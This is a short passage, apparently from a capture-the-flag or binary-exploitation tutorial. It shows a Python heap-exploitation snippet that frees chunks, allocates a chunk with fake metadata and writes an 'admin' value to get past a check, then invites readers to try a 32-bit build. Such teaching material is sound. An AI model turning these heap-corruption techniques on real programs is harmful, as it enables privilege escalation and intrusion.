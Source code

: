 ```python
delete(1)
delete(0)

create(p64(fake_metadata))
create('junk1')
create('junk2')

create('\x00' * 8 + 'admin\x00')
complete()
```

## 32-bit

Mixing it up a bit - you can try the _32-bit_ version yourself. Same principle, offsets a bit different and stuff. I'll upload the binary when I can, but just compile it as 32-bit and try it yourself :\)

